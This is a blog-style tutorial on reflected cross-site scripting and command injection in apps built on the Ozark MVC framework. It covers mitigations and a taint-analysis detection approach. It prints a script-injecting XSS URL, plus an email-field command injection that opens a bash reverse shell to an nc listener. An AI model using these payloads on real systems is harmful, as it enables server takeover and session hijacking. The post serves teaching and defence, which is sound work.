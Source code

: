 ```yaml
---
title: 'Cross Site Scripting (XSS) and Command Injection Tutorial in Ozark'
date: 2020-09-30
permalink: /posts/2012/08/blog-post-1/
tags:
  - cool posts
  - category1
  - category2
---
```


**Problem Statement:**
======

The challenge is to code up an application exhibiting a set
of (potential) weaknesses feasible in the Ozark framework. 

<a href='https://github.com/farif/Ozark-mvc-j2ee'>Source Code</a>

 
**\[Research & Threat Modeling\]:**

Model-View-Controller (MVC) is a framework/design-pattern for building
web applications. It introduces a paradigm of clean design by separating
concerns about modeling, presentation, and business logic in an
application.

MVC 1.0 (ref: JSR 371) is a property action-oriented framework, as
compared to the (predecessor) UI component-oriented MVC. It provides a
lot of flexibility to developers through features like: doesn't hide
HTTP request and response mechanism, didn't dictate or constraint the
use of HTML/CSS/JS and the actions-events are directly passed on to the
backend. Unfortunately, these features comes at the price of the
security by exposing too much attack surface. Even though Ozark API
\[Chapter 4 (ref: JSR 371)\] does provide few mitigatations functions
and/or controls but mostly the security aspect is overlooked. For
example, CSRF protection via tokens and XSS encoder to escape malicious
JS but this support isn't enough to fend off all security threats. Thus
required a comprehensive security assessment in every aspect of the
software development life cycle.

The reference implementation for MVC 1.0 is called Ozark \[2\]. A quick
round of threat modeling reveals that the natively developed application
can be easily compromised. Because the framework didn\'t give much
consideration to the security aspects and exposes too much attack
surface. We have developed an application to demonstrate that reflects
on critical weakness, one that impacts the client-side while the other
results in a complete server-side compromise (consult Fig 1).

> ![](http://farif.github.io/files/blogs/ozark/ozark_app.png)
>
> Fig 1: Threat Model for Ozark App.

The two exposed weakness are:

**\[Vulnerable Application 1\] Cross-Site Scripting (XSS): Reflected**

It is an application flaw that exploits victims trust in the
application. The application accepting non-trusted data (user-provided
inputs) and returning it to the browser without validation or
sanitization that may lead to run malicious scripts in the victim\'s
browser resulting to a compromise via hijacked sessions, stolen cookie,
invalid redirects, etc. The mitigation is to escape or filter out all
the special characters in the reply and help to avoid any reflected
script back to the victim.

**\[Vulnerable Application 2\] Command Injection:**

It is an application flaw that exploits application trust in the user.
The adversary goal is to execute arbitrary commands using controls
(forms, cookies, HTTP headers, etc.) provided with the vulnerable
application. The application passes unsafe user-supplied data to the
server-side and without proper validation it gets executed with a
handsome privilege. The prevention or mitigation for command injection
attacks is to employ rigrious input validation.

**\[Test Applications\]**

**Test Vulnerable Application 1:**

It is a simple greeting application, provided with a user name returns a
greeting message. The attacker can able to execute a malicious JS on the
victims-machine through malformed input appended in the input parameter
to the URL.

![](http://farif.github.io/files/blogs/ozark/fig_1.png)

**Vulnerability:** Reflected Cross-site Scription (XSS).

**Exploit:**

ozark-vuln-app/ozark-vuln/XSS?name=Alex+%3Cscript%3Ealert(%22Bingo%22)%3C/script%3E

![](http://farif.github.io/files/blogs/ozark/fig_2.png)

**NOTE:** If the victim is using Google Chrome, it blocks the execute
and return an error page with the exception:\
ERR\_BLOCKED\_BY\_XSS\_AUDITOR\
This check can be bypassed but we didn't investigated it further.

**Test Vulnerable Application 2:**

It is the same application that sends an email to the user-provided
email address. An attacker pwned the server machine (even the one behind
the firewall or in a protected network) by simply executing a reverse
shell.

![](http://farif.github.io/files/blogs/ozark/fig_3.png)

**Vulnerability:** Command Injection

**Exploit:**\
Deploying a reverse shell.

Listening on attacker's machine:

\#sudo nc -l 5555

Fill in the 'E-Mail:' box:

test\@hotmail.com \| bash -i \>& /dev/tcp/127.0.0.1/5555 0\>&1

![](http://farif.github.io/files/blogs/ozark/fig_4.png)

![](http://farif.github.io/files/blogs/ozark/fig_5.png)

![](http://farif.github.io/files/blogs/ozark/fig_6.png)

**Test Safe Application 1:**

This the counterpart of previous vulnerable application. The security
checks are implemented to stop cross-site scripting attack.

![](http://farif.github.io/files/blogs/ozark/fig_7.png)

**Mitigation:**

The mitigation is to escape/encode the special character's in the
provided URL before sending it back.

No reflected XSS attack is possible in it.

![](http://farif.github.io/files/blogs/ozark/fig_8.png)

**Test Safe Application 2:**

This the counterpart of the previous vulnerable application. The
security checks are implemented to stop command injection attack.

![](http://farif.github.io/files/blogs/ozark/fig_9.png)

**Mitigation:**

The fix is to validate the email address contents before passong on the
program that execute mail client command.

Fail to execute the injected command.

![](http://farif.github.io/files/blogs/ozark/fig_10.png)

**Disclaimer:** The code snippets of 'Michael Scharhag' \[4\] has been
used to develope above applications.

**\[Detection\]**

Due to a large volume of web applications, the need for automated
analysis tools is on the rise. For detection, we simply employ taint
analysis to discover the vulnerable code in the aforementioned
application. The goal of our analysis is to determine whether it is
possible that user-provided data reaches sensitive a sink without being
properly sanitized. More precisely, through annotations, we collect data
orignated from untrusted source/user inputs (taint seeds). These
annotations are provided with the classes (\@BeanParam, \@QueryParam).

Using a tainted policy (similar to the one suggested in \[5,6\]) that
propagates the tainted values in the program execution paths and then
checks the taint status at a critical locations (taint sinks). The taint
sinks in our case are the path to the function-calls that execution
system command and/or alter the model state which is returned to the
user without going through any validation check.

**Algorithm** (algorithm pseudocode):

Input: Java Classes with annotated functions.

ouput: Safe or Unsafe Program.

prog\_ast = antlr\_parser(input\_program)

prog\_cfg = build\_CFG(prog\_ast) (Control Flow Graph)

safe\_flag = apply\_tainted\_policy(prog\_cfg)

Return safe\_flag;

**End**;

The proposed method is a little bit imprecise (not sound and definitely
incomplete). It might fail to detect the issues and/ or raise false
alarms due to under-tainting or over-tainting. But it seems to be
sufficient in the proposed setting.

**References:**

\[1\] MVC 1.0 - Model-View-Conrtoller Specification, Ivar Grimstad,
Christain Kaltepoth, v1.0, September 2018
([[https://jcp.org/en/jsr/detail?id=371]{.underline}](https://jcp.org/en/jsr/detail?id=371))

\[2\] Ozark - Reference Implementation for MVC 1.0 \[Oracle Website\]

\[3\] Vulncat.fortify.com/en

\[4\]
https://github.com/mscharhag/java-ee-8-mvc/tree/master/getting-started

\[5\] Schwartz, Edward J., Thanassis Avgerinos, and David Brumley. \"All
you ever wanted to know about dynamic taint analysis and forward
symbolic execution (but might have been afraid to ask).\" 2010 IEEE
symposium on Security and privacy. IEEE, 2010.

\[6\] Vogt, Philipp, et al. \"Cross Site Scripting Prevention with
Dynamic Data Tainting and Static Analysis.\" NDSS. Vol. 2007. 2007.